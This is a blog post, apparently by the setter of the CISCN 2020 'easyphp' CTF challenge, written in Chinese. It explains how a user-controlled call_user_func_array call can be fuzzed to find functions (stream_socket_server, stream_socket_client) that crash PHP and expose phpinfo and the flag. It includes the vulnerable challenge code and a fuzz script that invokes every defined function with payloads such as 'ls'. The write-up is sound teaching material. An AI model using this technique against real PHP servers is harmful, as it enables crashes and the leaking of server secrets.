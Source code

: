 date: 2020-08-21
categories:
- 杂
tags:
- web
- ctf
- 出题笔记
title: ciscn2020easyphp出题笔记
---
# easyphp出题笔记

这题原意是想让大家写脚本来fuzz来发现CUFA/CUF中对引用处理不恰当而造成的崩溃，特意禁止了pcntl可是由于没有认真测试，忘记了还有CUF这个函数，结果有人直接绕过了。

出题人想干的事情就是我们不让他干成就是对这种情况的最好解释。最后看到自己的题目被解成那样，我也是自闭了。

继续正题吧。

## 来由

之所以会出现这题是因为前段时间的wmctf的webweb反序列化出有这样一处的利用点，我为了找到合适的函数就采取fuzz，东西没发现倒是发现php崩溃了。



## 漏洞细节

直接去看[bugs.php](https://bugs.php.net/bug.php?id=79979) 上面的，会不会是因为交到bugs.php上的原因导致这么多人解了？



## 原解

阅读代码我们发现:`if(!pcntl_wifexited($status)){phpinfo();}`，及fork的子进程报错就会执行phpinfo，而phpinfo里面通常包含敏感信息，和一些对我们题目有帮助的信息。

fork子进程执行的代码是：

```php
if(isset($_GET['a'])&&is_string($_GET['a'])&&!preg_match("/[:\\\\]|exec|pcntl/i",$_GET['a'])){
            call_user_func_array($_GET['a'],[$_GET['b'],false,true]);
```

而这里调用了非常敏感的call_user_func_array，所以无论是想让子进程报错还是直接执行代码这里都是非常好的选择。因此我们先要写个fuzz脚本：

```php
<?php

    $payloads=[
        "ls",//shell命令执行测试
        "index.php",//读取文件测试
        "asdfasldfjaklsdfjl.php",//创建文件/文件夹测试
        "echo 123;"//php命令执行测试
    ];
    $str=file_get_contents("fatalerr.log");
    if(!$str){
        $str="[]";
    }
    $fatalerror=eval("return ".$str.";");
    function show_result($func,$r,$v){
        if($r==NULL){
        }
        try{
            echo "$func($v,false,true) return value:";
            var_dump($r);
            echo "<br />";
        }catch(Exception $e){}
    }

    function brute_func($a){
        global $payloads;
        global $fatalerror;
        
        foreach($a as $val){
            
            if(is_array($val)){
                brute_func($val);
                continue;
            }
            
            if(in_array($val,$fatalerror)){
                continue;
            }
            array_push($fatalerror,$val);
            file_put_contents("fatalerr.log",var_export($fatalerror,TRUE));
            foreach($payloads as $v){
                $r=NULL;
                
                $r=call_user_func_array($val,[$v,false,true]);
                show_result($val,$r,$v);
                
            }
            array_pop($fatalerror);
            
        }
    };
    $arr=get_defined_functions();
    brute_func($arr);
?>
```



多次执行发现：

```php
stream_socket_server
exec
stream_socket_client
```

这三个函数会引起segment_fault 且 exec虽然会引起segment  fault但是仍然执行了代码，但是这里我禁用了exec所以我们用另外两个函数引起segment fault查看phpinfo，在phpinfo中找到flag。



## 最后

希望有师傅有不同的解可以留个言啥的谢谢啦